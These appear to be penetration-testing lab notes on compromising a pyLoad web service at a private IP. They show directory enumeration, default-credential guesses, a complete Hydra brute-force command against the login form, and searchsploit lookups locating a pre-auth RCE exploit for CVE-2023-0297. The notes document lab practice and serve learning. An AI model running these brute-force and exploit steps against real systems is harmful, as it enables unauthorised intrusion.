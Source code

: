 
Target URL:
```
http://192.168.181.26:9666
```
![[Pasted image 20231110020916.png]]
Login page
	Source Code shows nothing

Check for non-navigable directories
```sh
dirbuster
```
- Run at `50` threads
- Word list location:
```
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
	Only the root directory was found. Low socket connection rate so easy to DOS

Default creds
	admin:admin
	admin:password
Nope

Hydra bruteforce in background with admin as a try
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.181.26 -s 9666 http-post-form "/admin/login.php:username=^USER^&password=^PASS^:Incorrect username/email or password."
```
	Hydra is good when it works...

Check service exploit
```sh
searchsploit pyload
```
	 Exploit Title                                              |  Path
	PyLoad 0.5.0 - Pre-auth Remote Code Execution (RCE)         | python/webapps/51532.py
Potential RCE found

```sh
searchsploit -p 51532
```
	  Exploit: PyLoad 0.5.0 - Pre-auth Remote Code Execution (RCE)
	      URL: https://www.exploit-db.com/exploits/51532
	     Path: /snap/searchsploit/387/opt/exploitdb/exploits/python/webapps/51532.py
	    Codes: CVE-2023-0297
	 Verified: True
	File Type: <missing file package>

```sh
cp /snap/searchsploit/387/opt/exploitdb/exploits/python/webapps/51532.py .
```

Check exploit
![[Pasted image 20231110022243.png]]
	Uses requests to send a exploit packet to the /flash/addcrypted2* endpoint
